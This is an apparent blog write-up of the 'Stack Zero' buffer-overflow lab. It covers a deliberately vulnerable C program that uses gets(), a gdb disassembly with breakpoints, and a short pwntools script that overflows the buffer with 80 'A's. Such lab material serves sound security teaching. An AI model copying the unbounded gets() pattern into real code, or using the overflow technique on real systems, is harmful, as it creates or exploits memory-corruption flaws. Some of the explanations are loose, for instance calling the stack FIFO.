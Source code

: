 # Stack zero
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- We have 2 variables *modified* and *buffer* which are created in the stack.
- *modified* is an integer that the program checks to see if it's been altered unexpectedly. The `volatile` keyword is used to tell the compiler not to optimize this variable, as its value could be changed unexpectedly or arbitrarily.
- The *gets()* function is used -- input is loaded into buffer using *gets()*
- *gets()* is dangerous as it can be easily abused for buffer over flow.
- This is because *gets()* doesn't have a check for the number of inputs given in the stack, and it keep receiving input until the stack crashes -- which of course leads to stack buffer overflow.
- Knowing this we can overwrite the memory region where the *modified* variable is stored.

# Investigating further

Running `man gets` 
![Pasted image 20240709223941](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/b4c32f48-9808-494e-a0f6-5026a24d1868)
![Pasted image 20240709224151](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/eb6cf375-7356-4120-b574-c33e39455bce)



# The stack

#### EIP (Instruction Pointer)

The EIP register holds the memory address of the next instruction to be executed. It is not stored on the stack itself, but rather it is an architectural register in the CPU. **The EIP is used to keep track of the currently executing code.**

#### ESP (Stack Pointer)

The ESP register points to the top of the stack, which is the most recently pushed value. It is not directly stored on the stack, but it holds the memory address of the top of the stack. **ESP is used to access and manipulate data on the stack.**

#### EBP (Base Pointer)

The EBP register is used as a reference point for accessing local variables and function arguments on the stack. It is typically set to the value of ESP at the beginning of a function, providing a stable base address for referencing stack data. **EBP is pushed onto the stack when a function is called, and it is popped off when the function returns.**


- First the *modified* variable gets created, i.e. it gets pushed onto the stack(FIFO).
- Then the *buffer* which is an array of 64 characters gets created.
- *modified* variable gets pushed down to the stack.


# Disassembly 
We are going to disassemble our binary using *gdb/gef*

![Pasted image 20240709233340](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/f9462062-6acd-4f24-84e6-173dea56ff70)


# Disassembling the main function
```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	push   rbp
   0x000000000000114a <+1>:	mov    rbp,rsp
   0x000000000000114d <+4>:	sub    rsp,0x60
   0x0000000000001151 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000001154 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000001158 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000115f <+22>:	lea    rax,[rbp-0x50]
   0x0000000000001163 <+26>:	mov    rdi,rax
   0x0000000000001166 <+29>:	mov    eax,0x0
   0x000000000000116b <+34>:	call   0x1040 <gets@plt>
   0x0000000000001170 <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001173 <+42>:	test   eax,eax
   0x0000000000001175 <+44>:	je     0x1188 <main+63>
   0x0000000000001177 <+46>:	lea    rax,[rip+0xe8a]        # 0x2008
   0x000000000000117e <+53>:	mov    rdi,rax
   0x0000000000001181 <+56>:	call   0x1030 <puts@plt>
   0x0000000000001186 <+61>:	jmp    0x1197 <main+78>
   0x0000000000001188 <+63>:	lea    rax,[rip+0xea2]        # 0x2031
   0x000000000000118f <+70>:	mov    rdi,rax
   0x0000000000001192 <+73>:	call   0x1030 <puts@plt>
   0x0000000000001197 <+78>:	mov    eax,0x0
   0x000000000000119c <+83>:	leave
   0x000000000000119d <+84>:	ret
End of assembler dump.
gef➤  

```

The `modified` variable and the buffer are separate variables in the program. However, due to the way memory is organized in the stack, these variables are located next to each other. When the `gets` function is called to read input into the buffer, and if the input is longer than the size of the buffer, it will overflow into the memory space of the `modified` variable, effectively changing its value.

- We are going to set **2** breakpoints before and after the **gets()** function to see what registers have changed.
```
gef➤  break *0x000000000000116b
Breakpoint 1 at 0x116b
gef➤  break *0x0000000000001170
Breakpoint 2 at 0x1170
```
- The first breakpoint is set at the **gets()** function.
- The second breakpoints is set at the instruction that loads the value of the **modified** variable.
- Doing the above, we will get an idea on where the data on the stack is stored.


# Using pwntools to exploit the binary

```
from pwn import *

# Establish a process to the binary
p = process('/opt/exploitdev/stacked')

# Create the payload
# The 'A'*80 will overflow the buffer and modify the 'modified' variable
payload = ('A'*80).encode()

# Send the payload
p.sendline(payload)

# Receive the output
output = p.recvline()

# Print the output
print(output)

# Close the process
p.close()

```

![Pasted image 20240710130427](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/00c3b37c-5596-4efb-9c75-391ac472270f)


Thank you.

